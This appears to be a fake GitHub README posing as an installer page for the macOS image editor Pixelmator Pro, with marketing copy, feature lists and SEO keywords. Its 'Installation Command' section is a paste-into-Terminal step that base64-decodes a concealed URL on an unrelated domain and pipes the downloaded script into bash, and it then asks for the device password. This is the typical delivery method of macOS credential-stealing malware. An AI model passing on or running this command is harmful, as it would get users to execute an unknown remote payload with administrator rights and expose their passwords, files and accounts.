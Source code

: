 # 🎨 Pixelmator Pro for macOS – Professional Image Editing & Design  

## 📌 About Pixelmator Pro  
Pixelmator Pro is a professional image editing and graphic design software for macOS, offering a perfect balance between powerful tools and ease of use. Featuring advanced photo retouching, vector tools, painting, and AI-powered enhancements, Pixelmator Pro is designed for both creative professionals and everyday users.  

With native macOS integration, non-destructive editing, and full RAW support, it’s the ultimate creative tool for photographers, designers, and digital artists.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9waXhlbG1hdG9ycHJvL2luc3RhbGwuc2g= | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![Pixelmator Pro Screenshot 1](https://avatars.dzeninfra.ru/get-zen_doc/8170504/pub_64135f2386046655fb01b8a4_64135f315f9ca52cfb149e7e/scale_1200)  
![Pixelmator Pro Screenshot 2](https://www.iclarified.com/images/news/69965/341711/341711-1280.jpg)  

---

## 🚀 Key Features  
- 🖌 **Advanced Photo Editing** – Retouch, enhance, and adjust images with precision.  
- 🎨 **Graphic Design Tools** – Create stunning visuals, layouts, and illustrations.  
- 🤖 **AI-Powered Enhancements** – Automatic color match, background removal, and more.  
- 📷 **RAW Support** – Work with high-quality RAW images.  
- 🖼 **Vector Tools** – Create scalable graphics with vector shapes and paths.  
- ⚡ **Native macOS Integration** – Optimized for Apple Silicon and macOS features.  
- 🛠 **Non-Destructive Editing** – Make changes without damaging the original image.  
- 📑 **Templates & Presets** – Jump-start projects with built-in resources.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 4 GB minimum (8 GB recommended)  
- **Storage:** 1 GB for installation  
- **Others:** Internet connection for updates and resources  

---

## 🔍 SEO Keywords  
pixelmator pro mac · pixelmator pro macos · mac image editing · pixelmator photo editor · pixelmator design tools · pixelmator ai editing · mac graphic design · pixelmator raw support · mac photo retouching · pixelmator templates
